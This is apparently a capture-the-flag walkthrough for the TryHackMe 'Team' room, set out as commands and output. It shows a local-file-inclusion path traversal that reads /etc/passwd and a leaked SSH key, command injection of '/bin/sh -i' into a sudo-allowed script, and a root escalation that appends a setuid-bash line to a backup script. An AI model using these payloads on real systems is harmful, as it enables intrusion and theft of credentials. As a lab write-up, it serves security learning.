 ## Team
https://tryhackme.com/room/teamcw

## Enum
```
nmap -Pn -sC -sS -sV ip.thm -p 21,22,80 -A

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X (88%)
OS CPE: cpe:/o:linux:linux_kernel:4.2
Aggressive OS guesses: Linux 4.2 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
![image](https://user-images.githubusercontent.com/6504854/194690167-ffe29242-bf93-42a1-b0b9-35d288856d35.png)

🚩 Hint: dev 

```
echo 10.10.250.37 team.thm >> /etc/hosts
echo 10.10.250.37 dev.team.thm >> /etc/hosts
```

```
curl http://dev.team.thm/                                 

<html>
 <head>
  <title>UNDER DEVELOPMENT</title>
 </head>
 <body>
  Site is being built<a href=script.php?page=teamshare.php </a>
<p>Place holder link to team share</p>
 </body>
</html>
                                                                                                
curl http://dev.team.thm/script.php?page=teamshare.php

<html>
 <head>
  <title>Team Share</title>
 </head>
 <body>
  Place holder for future team share </body>
</html>
```

```
curl http://dev.team.thm/script.php?page=../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
```

🚩 ffuf scaned via LFI list and found ssh_conf files. 

page=/home/dale/.ssh/id_rsa and page=/home/gyles/.ssh/id_rsa couldn't find ssh keys 😞

```
curl http://dev.team.thm/script.php?page=/etc/ssh/sshd_config

#       $OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $

#Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
~~~
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----

```
🚩 Copy + paste the key and remove # (commented). Save as id_rsa and chmod 600 id_rsa.

## Flag

```
ssh -i id_rsa dale@10.10.250.37

```
![image](https://user-images.githubusercontent.com/6504854/194691494-f6a176f1-a727-4a34-a069-5f59ab57f157.png)

```
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

```
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: data
Enter 'date' to timestamp the file: /bin/sh -i
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)

gyles@TEAM:/opt/admin_stuff$ find / -group admin 2>/dev/null
/usr/local/bin
/usr/local/bin/main_backup.sh
/opt/admin_stuff

gyles@TEAM:~$ echo "cp -p /bin/bash /tmp/sh && chmod u+s /tmp/sh" >> /usr/local/bin/main_backup.sh

gyles@TEAM:~$ ls -la /tmp/sh
-rwsr-xr-x 1 root root 1113504 Oct  8 07:46 /tmp/sh

gyles@TEAM:/tmp/sh -p

sh-4.4# cat /root/root.txt
sh-4.4# THM{f************}
```

㊗️ はらへった　🥓🥓🥓🥓


